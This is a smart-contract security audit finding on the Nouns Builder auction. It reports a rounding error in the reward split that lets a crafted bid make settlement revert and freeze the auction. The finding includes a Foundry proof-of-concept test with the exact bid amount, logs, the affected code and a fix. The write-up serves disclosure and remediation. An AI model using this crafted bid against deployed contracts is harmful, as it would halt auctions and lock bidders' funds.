 Itchy Mint Cow

high

# The auction could break due to a rounding error

## Summary
After auction process end , anyone can invoke `settleCurrentAndCreateNewAuction` to settle previous auction and start a new round。When `highestBid` is bigger than ZERO, protocol invoke [rewardsManager#depositBatch](https://github.com/ourzora/zora-protocol/blob/main/packages/protocol-rewards/src/ProtocolRewards.sol#L46#L86) to split the total amount。
Note that there is a check inside above function:
```solidity
  if (msg.value != expectedTotalValue) {
      revert INVALID_DEPOSIT();
  }
```

Suspicious users can submit a specific amount to break the auction, preventing it from continuing due to rounding error in calculating the split amount.

## Vulnerability Detail

```diff
@@ -305,17 +305,43 @@ contract AuctionTest is NounsBuilderTest {
         auction.createBid{ value: 0.420 ether }(2);
     }

+    function test_MutipleSettleRoundingError() public {
         deployMock();
+        vm.prank(founder);
+        auction.unpause();
+
+        vm.startPrank(bidder1);
+        auction.createBid{value:1 ether}(2);
+        //Assume bidder2 is a Suspicious users 
+        vm.startPrank(bidder2);
+        auction.createBid{value:6667274999493255999}(2);

+        vm.warp(10 minutes + 1 seconds);
+
+        vm.expectRevert(MockProtocolRewards.INVALID_DEPOSIT.selector);
+        auction.settleCurrentAndCreateNewAuction();
+    }
```

And i add a console2 to MockProtocolRewards 

```diff
 contract MockProtocolRewards {
@@ -48,7 +48,8 @@ contract MockProtocolRewards {
                 ++i;
             }
         }
-
+        console2.log("msg.value:",msg.value);
+        console2.log("expectedTotalValue:",expectedTotalValue);
         if (msg.value != expectedTotalValue) {
             revert INVALID_DEPOSIT();
         }
```

Here goes the output:
```shell
Running 1 test for test/Auction.t.sol:AuctionTest
[PASS] test_MutipleSettleRoundingError() (gas: 3633429)
Logs:
  msg.value: 466709249964527919
  expectedTotalValue: 466709249964527918
```

We can see `msg.value != expectedTotalValue` due to rounding error

## Impact
The auction could break and can't start a new round ， Since the entire auction will be terminated, I believe this should be considered an H issue
## Code Snippet
https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/auction/Auction.sol#L465#L508
```solidity
 // Calulate total rewards
  split.totalRewards = (_finalBidAmount * totalBPS) / BPS_PER_100_PERCENT;

  // Check if founder reward is enabled
  bool hasFounderReward = _founderRewardBps > 0 && founderReward.recipient != address(0);

  // Set array size based on if founder reward is enabled
  uint256 arraySize = hasFounderReward ? 3 : 2;

  // Initialize arrays
  split.recipients = new address[](arraySize);
  split.amounts = new uint256[](arraySize);
  split.reasons = new bytes4[](arraySize);

  // Set builder reward
  split.recipients[0] = builderRecipient;
  split.amounts[0] = (_finalBidAmount * builderRewardsBPS) / BPS_PER_100_PERCENT;

  // Set referral reward
  split.recipients[1] = _currentBidRefferal != address(0) ? _currentBidRefferal : builderRecipient;
  split.amounts[1] = (_finalBidAmount * referralRewardsBPS) / BPS_PER_100_PERCENT;
```

## Tool used

Manual Review

## Recommendation
```diff
@@ -505,6 +505,12 @@ contract Auction is IAuction, VersionedContract, UUPS, Ownable, ReentrancyGuard,
             split.recipients[2] = founderReward.recipient;
             split.amounts[2] = (_finalBidAmount * _founderRewardBps) / BPS_PER_100_PERCENT;
         }
+
+        uint256 actualAmount;
+        for(uint i;i<arraySize;i++){
+            actualAmount+=split.amounts[i];
+        }
+        split.totalRewards = actualAmount;
     }
```